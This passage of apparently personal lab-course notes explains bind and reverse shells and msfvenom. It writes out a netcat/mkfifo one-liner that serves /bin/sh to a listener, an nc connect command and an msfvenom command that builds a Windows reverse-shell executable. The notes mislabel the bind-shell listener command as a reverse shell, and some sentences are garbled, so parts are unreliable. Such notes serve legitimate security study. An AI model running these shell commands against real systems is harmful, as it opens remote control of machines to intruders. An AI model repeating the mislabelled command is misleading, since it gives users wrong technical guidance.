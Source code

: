 On the attacking machine: `nc MACHINE_IP <PORT>`

![bind shell](https://i.imgur.com/6GUwZsw.png)

### Interactive

If used Powershell, Bash, Zsh, sh or any other standard CLI environment to allow interaction with programs after executing them.

### Non-Interactive

Limited to using programs which do not require user interaction in order to run properly. The majority of simple reverse and bind shells are non-interactive.

## Common Shell Payloads

On Linux, we use this code to create a listener for a bind shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.

- The command first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe.
- A very similar command can be used to send a netcat reverse shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages.

## msfvenom

Msfvenom: The one-stop-shop for all things payload related. Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells.

The standard syntax for msfvenom: `msfvenom -p <PAYLOAD> <OPTIONS>`.

- To generate a Windows x64 Reverse Shell in an exe format: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`.
  - `-f` specifies the output format.
  - `-o` the output location and filename for the generated payload.
  - `LHOST=<IP>` specifies the IP to connect back to.
  - `LPORT=<PORT>` the port on the local machine to connect back to. This can be anything between 0-65535 that isn't already in use. However, the ports below 1024 are restricted and require a listener running with root privileges.

### Staged Payloads

Staged payloads are sent in two parts.

1. Stager - A piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead, it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions.
